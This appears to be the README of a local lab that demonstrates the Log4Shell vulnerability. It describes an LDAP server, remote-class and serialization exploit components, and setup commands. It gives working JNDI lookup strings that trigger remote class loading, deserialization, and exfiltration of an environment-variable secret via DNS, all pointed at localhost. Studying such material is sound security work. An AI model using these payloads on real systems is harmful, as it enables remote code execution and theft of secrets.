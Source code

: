 # Overview

The components are:

- `log4shell`: Logs a logline using `log4j`.
- `ldap`: A simple LDAP server.
- `remote`: The code of the exploit that is used during the remote class loading.
- `serialization`: Creates a serialized object of the exploit.
  - To use this e.g. `commons-collections:commons-collections:3.1` has to be on the classpath.
- `serve_exploit.sh`: Compiles the `remote`-project and starts a server that serves the class-file.
- `listen_to_udp.sh`: Opens a UDP port and responds.
- `jndi`: Example the the exploit that only uses JNDI.

In `build.gradle` of `log4shell` the value `Dcom.sun.jndi.ldap.object.trustURLCodebase=true` is set, so that
the part using remote classloading works. It certainly also is intertesting to try these examples without this parameter.

#  Preparation

- `gradle ldap:run`, to start the LDAP server.
- `./serve_exploit.sh`, to compiole the exploit and start the server that serves the code.
- `./listen_to_udp.py`, to accept data on UDP port 1053.

# Testing the Exploits

Call

```
gradle log4shell:run --args="<logstring>" 
```

with the following values for `logstring`:

- `\${jndi:ldap://127.0.0.1:1389/dc=javaNamingReference}` for the remote code exploit.
- `\${jndi:ldap://127.0.0.1:1389/dc=javaSerializedData}` for the exploit that uses classes in the classpath.
- `\${jndi:dns://127.0.0.1:1053/\${env:MY_PASSWORD}}` to transfer data via DNS. For this `MY_PASSWORD` should
  be set accordingly in advance.

